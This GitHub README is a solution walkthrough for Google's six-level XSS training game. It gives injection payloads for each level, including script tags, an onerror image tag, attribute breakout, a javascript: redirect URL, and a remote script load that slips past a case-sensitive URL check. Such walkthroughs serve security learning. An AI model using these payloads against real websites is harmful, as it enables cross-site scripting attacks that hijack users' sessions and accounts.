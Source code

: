 # XSS-game by Google

Google has created 6 level interactive XSS game. 
[Click here to start playing](https://xss-game.appspot.com/ "XSS game area")

If you can pass all the challenges, you will be rewarded with an appealing cake! <img class="emoji" title=":smiley:" alt=":smiley:" src="https://assets-cdn.github.com/images/icons/emoji/unicode/1f603.png" height="20" width="20" align="absmiddle">

## Level 1: Hello, world of XSS
In this level you will learn what happens to the application if you use input from user directly without proper escaping.

### Solution

```html
<script>alert("Level1");</script>
```


## Level 2: Persistence is key
Similar to level 1. But this time directly inserting `<script>` tag will not work.

### Solution

```html
<img src="demo" onerror='javascript:alert("Level2");' />
```


## Level 3: That sinking Feeling
There is no input field in thie level. But still Cross Site Scripting is possible via the address path as the JavaScript code directly uses `self.location.hash.substr(1)`. It is the url part after the `#` sign.

### Solution

Simply inject the following: 

```javascript
https://xss-game.appspot.com/level3/frame#'onerror='alert("Level3")'
```


## Level 4: Context matters
The code passes user value directly to `onload="startTimer('{{ timer }}');"` method. Thus we can exploit the script. 

### Solution

Add the following part in the input field.

```
');javascript:alert('Level4
```


## Level 5: Breaking protocol
This is the most tricky challenge. Here some templates are connected in chain by storing the `next` URL in a variable. So, if we can somehow change the value of `next` variable then XSS will work.

### Solution

So we simply change the URL to:
 
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Level5')

Press GO which will change the URL of Next button to javascript:alert('Level5').

Finally press the Next button.
```


## Level 6: Follow the rabbit
Do you know `regular expression`? If the answer is `yes` what do you think the following code snipper will do?

```javascript
url.match(/^https?:\/\//)
```
Yeah! You are right. It will return true if `url` variable starts with `http. What happen if `url` starts with `HTTP`?

If you do not know `regex`, start learning from 
[Learn Regular Expressions with simple, interactive exercises](https://regexone.com/ "RegexOne,
Learn Regular Expressions with simple, interactive exercises.")

### Solution

```html
https://xss-game.appspot.com/level6/frame#HTTPS://arsho.github.io/rough/alert.js
```


#Congratulation! Let's eat the cake!!
![alt xss_cake](https://raw.githubusercontent.com/arsho/xss_game/master/screenshot/xss_game_cake.png)

